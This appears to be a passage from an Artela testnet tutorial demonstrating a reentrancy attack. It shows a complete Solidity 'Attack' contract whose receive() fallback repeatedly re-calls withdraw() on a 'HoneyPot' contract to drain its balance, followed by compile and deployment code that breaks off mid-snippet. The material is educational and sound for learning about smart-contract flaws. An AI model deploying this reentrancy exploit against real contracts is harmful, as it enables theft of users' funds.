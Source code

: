 **Step2: Mock the Attack of Smart Contract** 

We can mock an attack smart contract named `Attack`. This contract is designed to exploit vulnerabilities in HoneyPot.sol. Below is the Solidity code for `Attack.sol`:

```tsx
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.2 <0.9.0;

import "./HoneyPot.sol";

contract Attack {
    HoneyPot public honeyPot;

    constructor(address _depositFundsAddress) {
        honeyPot = HoneyPot(_depositFundsAddress);
    }

    function attack() external payable {
        honeyPot.withdraw();
    }

    function deposit() external payable {
        require(msg.value >= 10 ether);
        honeyPot.deposit{value: 10 ether}();
    }

    receive() external payable  {
        if (address(honeyPot).balance >= 1 ether) {
            honeyPot.withdraw();
        }
    }
}
```

**Step3: Compile Contracts**
Compile `HoneyPot.sol` and `Attack.sol` to obtain deployable bytecode using the `asolc` tool:

```bash
>  asolc -o ${your target folder path} --via-ir --abi --bin ${your *.sol file path} --overwrite
```

**Step4: Deploy Contracts** 
Deploy `HoneyPot.sol` and `Attack.sol` to the Artela testnet. Below is an example of deploying `HoneyPot.sol`:

```tsx
// Deploy honeypot contract to artela
//
// HoneyPot is an asset management contract that keeps track of the assets owned by users of HoneyPot. 
// The total recorded amount of these assets is mapped to the native assets held in the contract's account on the blockchain.
//
// Contract at: reentrance/contracts/HoneyPot.sol
let honeyPotContract = new web3.atl.Contract(HoneyPotAbi,
    web3.utils.aspectCoreAddr, honeypotOptions);
let token_instance = honeyPotContract.deploy().send({ from: honeypotDeployer, nonce: honeyPotNonceVal });
let honeypotAddress = "";
honeyPotContract = await token_instance.on('receipt', function (receipt) {
    console.log("=============== deployed contract ===============");
    console.log("contract address: " + receipt.contractAddress);
    console.log(receipt);
    honeypotAddress = receipt.contractAddress
}).on('transactionHash', (txHash) => {
    console.log("deploy contract tx hash: ", txHash);
```